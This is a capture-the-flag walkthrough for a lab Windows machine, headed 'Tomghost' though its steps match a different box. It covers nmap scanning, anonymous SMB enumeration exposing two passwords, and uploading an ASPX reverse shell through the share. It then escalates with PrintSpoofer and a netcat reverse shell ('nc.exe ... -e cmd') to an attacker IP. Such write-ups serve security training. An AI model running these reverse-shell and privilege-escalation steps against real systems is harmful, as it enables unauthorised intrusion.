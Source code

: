# Tomghost

## Scanning

 ```bash
furious 10.10.56.135
nmap -sC -sV -p 80,135,445,139,3389 -n 10.10.56.135 -oN targeted
 ```

![215504.png](215504.png)

## smb

```bash
smbclient -L 10.10.56.135 -N
smbclient -N //10.10.56.135/nt4wrksv
```

![211840.png](211840.png)

![214633.png](214633.png)

```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```

```bash

#download a reverse shell 
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

# we enter into the machine tu upload the shell
smbclient //10.10.106.15/nt4wrksv -U 'Bill%Juw4nnaM4n420696969!$$$'
put shell.aspx

# wait with nc
nc -lvp 4444
```

and we enter here http://10.10.106.15:49663/nt4wrksv/shell.aspx

```bat
type C:\Users\Bob\Desktop\user.txt
```

## Escalation privilege

ParrotOS (terminal 1)

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
cp /usr/share/windows-resources/binaries/nc.exe .
sudo impacket-smbserver a .
```

Parrot (Terminal 2)

```bash
# listening on port 5555
rlwrap nc -lvp 5555
```

Windows

```bat
cd C:\Windows\Temp
copy \\10.2.36.179\a\nc.exe .
copy \\10.2.36.179\a\PrintSpoofer64.exe .
PrintSpoofer64.exe -c "nc.exe 10.2.36.179 5555 -e cmd"
```

![005428.png](005428.png)

![002629.png](002629.png)

```bat
type C:\Users\Administrator\Desktop\root.txt
```

![001931.png](001931.png)
